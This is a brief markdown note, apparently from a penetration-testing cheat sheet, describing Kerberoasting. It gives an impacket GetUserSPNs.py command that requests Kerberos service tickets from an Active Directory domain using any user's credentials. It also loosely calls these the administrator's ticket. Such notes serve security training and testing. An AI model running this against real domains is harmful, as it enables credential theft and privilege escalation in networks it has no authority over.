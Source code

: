 ## Kerberoasting

Use **GetUserSPNs.py** from impacket to get administrator Kerberos ticket
```
//You need credentials of any user to do that
./GetUserSPNs.py -request <domain>/<user>
```
